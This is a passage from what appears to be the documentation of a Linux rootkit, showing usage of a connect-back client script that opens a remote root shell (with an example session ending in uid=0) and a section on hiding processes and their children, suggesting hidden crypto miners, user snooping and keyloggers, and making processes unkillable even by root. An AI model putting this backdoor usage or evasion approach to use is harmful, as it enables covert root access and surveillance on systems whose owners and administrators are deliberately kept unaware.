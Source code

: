                 IP:
                    Remote IP address where rootkit is listening

                Port:
                    Local port for connect-back session - must be unfiltered

                Example:
                    bdclient.sh openssl 192.168.1.10 9999

                Verbose, example:
                    V=1 bdclient.sh openssl 192.168.1.10 9999
                ---snip---

            Example:

                ---snip---
                 $ sudo ./bdclient.sh nc 192.168.0.3 9999
               Connection from [192.168.0.12] port 9999 [tcp/*] accepted (family 2, sport 42390)
               /bin/sh: 0: can't access tty; job control turned off
               # id
               uid=0(root) gid=0(root) groups=0(root)
               #
                ---snip---

    2.5 Tasks

        Perhaps the most important feature of any rootkit is
        hiding processes.

        Hidden processes offer a great deal of freedom about what
        can actually be done with the hacked device.

        If it is a powerful one, for example, a cluster, one
        can hide tools for crypto mining. In other cases one
        can hide tools that are used for snooping users and other
        processes, hide activity and rely on userspace to achieve
        goals not directly implemented by the rootkit, for example
        a keylogger that could well be written for userspace
        and so on.

        Also, great care (well.. I tried) was taken on children processes. It is often
        forgotten, by so called rootkit developers, that tasks
        can generate (fork/clone) other tasks or if the care is
        taken in hiding children, new children created at any
        point in future are forgotten and left hunging around,
        waiting to be found by the system admin.

        There are different ways of hiding processes.
        The most lame approach is to filter out output
        from userland tools like ps or top by hooking
        lame syscalls - this is not the case here.

        If done properly, a hidden process is also
        unkillable, even by r00t itself:
